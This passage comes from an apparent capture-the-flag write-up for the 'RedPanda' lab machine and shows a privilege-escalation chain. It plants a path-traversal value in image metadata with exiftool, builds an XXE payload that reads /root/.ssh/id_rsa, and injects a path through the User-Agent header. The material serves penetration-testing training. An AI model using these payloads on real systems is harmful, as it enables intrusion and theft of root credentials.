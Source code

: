 ```console
To check for new updates run: sudo apt update

Last login: Tue Jul  5 05:51:25 2022 from 10.10.14.23
woodenk@redpanda:~$ 
```
Now with information we got from above we are going to change any .jpg of our own (I got mine from google images) and use exiftool to input our own uri.

Note: rootme is the 1st part of the xml file that I created further below. The other half being _creds.xml

```console
└──╼ [★]$ exiftool -Artist='../home/woodenk/rootme' pic.jpg
    1 image files updated
```
Set up the http server and download it to the victim

```console
woodenk@redpanda:~$ wget http://10.10.14.47:8000/pic.jpg
--2022-08-19 19:17:23--  http://10.10.14.47:8000/pic.jpg
Connecting to 10.10.14.47:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59193 (58K) [image/jpeg]
Saving to: ‘pic.jpg’

pic.jpg             100%[===================>]  57.81K  --.-KB/s    in 0.009s  

2022-08-19 19:17:23 (6.11 MB/s) - ‘pic.jpg’ saved [59193/59193]
```

If you go to the export table found earlier in this writeup you can find the template for XML to perform our XXE.
Create an xml file with our XXE payload and make sure its in the same directory as the .jpg.
My files were located in /home/woodenk.

Note: Be sure the xml documents end in ```_creds.xml``` so it matches the .java file.

```console
woodenk@redpanda:~$ echo '<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/pic.jpg</uri>
    <hello>&ent;</hello>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>' > rootme_creds.xml
```
Now in Burpsuite change the User-Agent: section to what is listed below.

```
GET / HTTP/1.1
Host: 10.129.66.22:8080
User-Agent: ||/../../../../../../../home/woodenk/pic.jpg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
Give it a minute or 2 after sending the request to the webpage through BurpSuite. The ssh key will not pop into the xml document immediately.

